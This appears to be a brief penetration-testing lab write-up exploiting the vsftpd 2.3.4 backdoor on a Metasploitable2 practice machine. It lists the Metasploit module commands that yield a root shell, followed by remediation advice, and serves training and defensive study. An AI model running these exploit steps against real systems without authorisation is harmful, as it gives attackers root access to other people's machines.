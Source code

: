 # Metasploitable2 – vsftpd 2.3.4 Backdoor (Port 21)

**Date:** 2025-09-04  
**Target:** 192.168.56.101  
**Attacker:** Kali Linux 2025.2  
---
## Recon
Nmap revealed the following service running on port 21:  
21/tcp open ftp vsftpd 2.3.4
This version is vulnerable to a known backdoor (CVE-2011-2523, Exploit-DB 17491).
---
## Exploitation (Metasploit)
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.101
exploit
---
## Proof of Compromise
Successful exploitation resulted in a root shell:
whoami
root
uname -a
Linux metasploitable 2.6.24-16-server ...
---
## Artifacts
- [Nmap results](./nmap_results.txt)  
- Screenshot(s): *(add later in images/ folder)*  
- PDF report: OSCP_Report_vsftpd.pdf *(optional)*  
---
## Remediation
Upgrade vsftpd to a secure version (>= 2.3.5).  
Replace FTP with SFTP/SSH where possible.  
Restrict or disable legacy FTP access.
